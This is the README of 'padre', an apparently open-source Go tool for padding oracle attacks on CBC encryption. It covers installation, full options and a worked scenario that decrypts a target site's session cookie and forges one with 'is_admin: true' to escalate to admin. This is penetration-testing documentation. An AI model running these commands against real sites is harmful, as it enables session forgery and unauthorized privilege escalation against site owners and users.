

# padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo



## Installation/Update
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Full usage options
```
Usage: padre [OPTIONS] [INPUT]

INPUT: 
	In decrypt mode: encrypted data
	In encrypt mode: the plaintext to be encrypted
	If not passed, will read from STDIN

	NOTE: binary data is always encoded in HTTP. Tweak encoding rules if needed (see options: -e, -r)

OPTIONS:

-u *required*
	target URL, use $ character to define token placeholder (if present in URL)

-enc
	Encrypt mode

-err
	Regex pattern, HTTP response bodies will be matched against this to detect padding oracle. Omit to perform automatic fingerprinting

-e
	Encoding to apply to binary data. Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r
	Additional replacements to apply after encoding binary data. Use odd-length strings, consiting of pairs of characters <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~', then use -r "/!+-=~"

-cookie
	Cookie value to be set in HTTP requests. Use $ character to mark token placeholder.

-post
	String data to perform POST requests. Use $ character to mark token placeholder. 

-ct
	Content-Type for POST requests. If not specified, Content-Type will be determined automatically.
	
-b
	Block length used in cipher (use 16 for AES). Supported values:
		8
		16 *default*
		32

-p
	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy
	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
```

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster